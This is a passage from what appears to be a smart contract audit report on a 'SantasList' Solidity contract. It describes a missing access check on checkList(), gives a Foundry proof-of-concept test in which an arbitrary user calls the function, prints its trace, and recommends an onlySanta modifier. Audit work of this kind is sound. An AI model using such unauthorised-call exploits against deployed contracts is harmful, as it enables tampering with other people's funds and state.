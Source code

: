 ## Vulnerability Details

The comment states that `checkList()` is only callable by santa. But there are no checks to prevent others from calling this function. This means anyone can change `s_theListCheckedOnce`.

## Impact

Prevent the second checkList `checkTwice` from passing. Also prevent user from collecting presents by changing `s_theListCheckedOnce`.

#### Test:

```javascript
   function testHackCheckList() public {
        vm.prank(user);
        santasList.checkList(user, SantasList.Status.EXTRA_NICE);
        assertEq(uint256(santasList.getNaughtyOrNiceOnce(user)), uint256(SantasList.Status.EXTRA_NICE));
    }
```

#### Traces

```zsh
[35868] SantasListTest::testHackCheckList()
    ├─ [0] VM::prank(user: [0x6CA6d1e2D5347Bfab1d91e883F1915560e09129D])
    │   └─ ← ()
    ├─ [24111] SantasList::checkList(user: [0x6CA6d1e2D5347Bfab1d91e883F1915560e09129D], 1)
    │   ├─ emit CheckedOnce(person: user: [0x6CA6d1e2D5347Bfab1d91e883F1915560e09129D], status: 1)
    │   └─ ← ()
    ├─ [690] SantasList::getNaughtyOrNiceOnce(user: [0x6CA6d1e2D5347Bfab1d91e883F1915560e09129D]) [staticcall]
    │   └─ ← 1
    └─ ← ()
```

## Tools Used

Manual review, Foundry

## Recommendations

Add `onlySanta` modifier to function.

# Medium Risk Findings

## <a id='M-01'></a>M-01. Naughty users buy present for lesser price

### Relevant GitHub Links
